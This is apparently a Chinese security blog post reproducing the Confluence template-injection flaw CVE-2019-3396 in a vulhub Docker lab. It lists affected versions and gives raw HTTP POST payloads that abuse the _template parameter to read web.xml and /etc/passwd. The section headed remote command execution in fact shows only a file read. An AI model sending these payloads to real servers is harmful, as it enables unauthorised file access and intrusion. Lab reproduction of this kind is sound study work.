 ```yaml
---
layout:     post
title:      【漏洞复现】confluence远程代码执行漏洞(CVE-2019-3396)
subtitle:   远程代码执行漏洞
date:       2020-11-11
author:     matrix
header-img: img/websecurity.jpeg
catalog: true
tags:
    - 漏洞复现
---
```

## 0x00 漏洞说明
Confluence是一个专业的企业知识管理与协同软件，常用于构建企业wiki。它强大的编辑和站点管理特征能够帮助团队成员之间共享信息、文档协作、集体讨论，信息推送。其中Confluence Server和Data Center产品中使用的小工具连接器widgetconnecter组件（版本<=3.1.3）中存在服务器端模板注入漏洞（SSTI）。
攻击者可利用该漏洞对系统进行路径遍历、服务端请求伪造（SSRF）、远程代码执行（RCE）
## 0x01 影响版本
### 产品
Confluence Server
Confluence Data Center
2.0.0 <= version < 6.6.13
6.7.0 <= version < 6.12.4
6.13.0 <= version < 6.13.4
6.14.0 <= version < 6.14.3
6.15.0 <= version < 6.15.2
### 组件
widgetconnector
version <= 3.1.3## 0x02 复现环境
vulhub
## 0x03 漏洞复现
### 0、环境搭建
docker-compose up -d
![-c1596](/img/16050835682883.jpg)
![-c1621](/img/16050838207076.jpg)

serverID:B57H-6NLA-AC9K-HXR7
![-c1139](/img/16050840799162.jpg)
![-c1146](/img/16050841402196.jpg)
![-c705](/img/16050857569665.jpg)
![-c820](/img/16050873798223.jpg)
![-c1791](/img/16050878611758.jpg)
### 1、漏洞利用
#### 本地文件读取
```
POST /rest/tinymce/1/macro/preview HTTP/1.1
Host: 10.32.112.95:8090
Content-Type: application/json
Referer: http://10.32.112.95:8090/
Content-Length: 171

{"contentId":"0","macro":{"name":"widget","body":"","params":{"url":"metacafe.com","width":"300","height":"200","_template":"WEB-INF/web.xml"}}}
```
![-c1786](/img/16051456167539.jpg)
#### 远程命令执行
```
POST /rest/tinymce/1/macro/preview HTTP/1.1
Host: 10.32.112.95:8090
Content-Type: application/json
Referer: http://10.32.112.95:8090/
Content-Length: 147

{"contentId":"0","macro":{"name":"widget","body":"","params":{"url":"metacafe.com","width":"300","height":"200","_template":"file:///etc/passwd"}}}
```
![-c1786](/img/16051470391309.jpg)

